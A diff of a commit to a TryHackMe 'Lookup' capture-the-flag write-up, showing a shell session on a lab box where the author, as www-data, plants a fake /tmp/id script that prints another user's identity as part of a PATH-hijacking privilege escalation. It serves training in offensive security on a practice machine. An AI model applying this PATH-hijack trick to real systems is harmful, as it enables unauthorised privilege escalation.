

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Linux Pentest/THM/Lookup.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/Linux Pentest/THM/Lookup.md
+++ b/Linux Pentest/THM/Lookup.md
@@ -138,8 +143,7 @@ ubuntu
 ## i will replace "uid=33(www-data) gid=33(www-data) groups=33(www-data)" with "uid=33(think) gid=33(think) groups=33(think)"
 
 ```
-www-data@ip-10-129-131-171:/home$ echo '"echo uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
-<3(think) gid=33(think) groups=33(think)"' > /tmp/id
+www-data@ip-10-129-131-171:/home$ echo -e '#!/bin/bash\n echo "uid=33(think) gid=33(think) groups=33(think)"' > /tmp/id
 www-data@ip-10-129-131-171:/home$ chmod +x /tmp/id
 chmod +x /tmp/id
 www-data@ip-10-129-131-171:/home$ $PATH
````
Also changed, not shown: other parts of Linux Pentest/THM/Lookup.md (+5 -0 lines).
